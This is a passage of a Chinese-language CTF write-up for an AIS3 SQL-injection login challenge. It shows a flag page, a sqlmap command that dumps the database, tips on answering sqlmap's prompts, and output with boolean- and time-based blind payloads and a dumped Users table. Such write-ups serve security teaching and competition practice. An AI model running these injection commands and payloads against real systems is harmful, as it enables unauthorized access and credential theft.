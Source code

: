 <iframe frameBorder="0" style='overflow: visible; width: 100%; height: 30rem; ' scrolling="no" srcdoc='<!DOCTYPE html> <html lang="en">  <head>     <meta charset="UTF-8">     <meta http-equiv="X-UA-Compatible" content="IE=edge">     <meta name="viewport" content="width=device-width, initial-scale=1.0">     <meta name="robots" content="noindex,nofollow">     <title>Dashboard</title>     <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0-alpha3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-KK94CHFLLe+nY2dmCWGMq91rCGa5gtU4mk92HdvYe+M/SXH301p5ILy+dN9+nJOZ" crossorigin="anonymous">     <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.0-alpha3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ENjdO4Dr2bkBIFxQpeoTz1HIcje39Wm4jDKdf19U8gI4ddQ3GYNS7NTKfAdVQSZe" crossorigin="anonymous"></script>     <script type="text/javascript">         (function (c, l, a, r, i, t, y) {             c[a] = c[a] || function () { (c[a].q = c[a].q || []).push(arguments) };             t = l.createElement(r); t.async = 1; t.src = "https://www.clarity.ms/tag/" + i;             y = l.getElementsByTagName(r)[0]; y.parentNode.insertBefore(t, y);         })(window, document, "clarity", "script", "gsfl4ftdey");     </script> </head>  <body>     <div class="container">         <h2 class="mt-5">Dashboard</h2>         <div class="alert alert-info mt-4 alert-dismissible" role="alert">Welcome back admin!</div>                     <div class="alert alert-primary mt-4" role="alert">Here is your flag: <code>AIS3{&#39; UNION SELECT 1, 1, 1, 1 WHERE ({condition})--}</code></div>                  <a class="btn btn-primary mt-3">Logout</a>     </div>  </body>  </html>'></iframe>

然後這題雖然有裝 reCAPTCHA 但其實沒有裝好，所以可以直接用 sqlmap 把資料庫直接 dump 出來，只是有些地方要按對才挖的出來。

```sh
sqlmap http://url/login --data "username=admin*&password=p" --level 5 --risk 3 --dump
```

執行上面這個的時候，會被問到下面這類問題，這邊要按 `n`，因為有些時候會把 sqlmap 導到 Youtube 造成 sqlmap 會有錯誤的判斷。

```sh
got a 302 redirect to 'http://xxx/'. Do you want to follow? [Y/n]
```

把資料庫 dump 出來後就直接拿去正常登入就好了。

```sh
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - comment)
    Payload: username=admin%' OR NOT 1853=1853-- aGKT&password=p

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: username=admin%' OR 7991=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'wNiy%'='wNiy&password=p
...
Database: <current>
Table: Users
[2 entries]
+----+----------------+---------------------------------+----------+
| id | code           | password                        | username |
+----+----------------+---------------------------------+----------+
| 1  | 47428350415632 | e1a5654762d385c8                | admin    |
| 2  | 99999999999999 | guest                           | guest    |
+----+----------------+---------------------------------+----------+
```

這題最初是想做成只能用 boolean-based blind 挖資料庫，讓大家繞 reCAPTCHA 才能解的，不過我沒去擋 `row.password` 所以可以用簡單的方法解出。
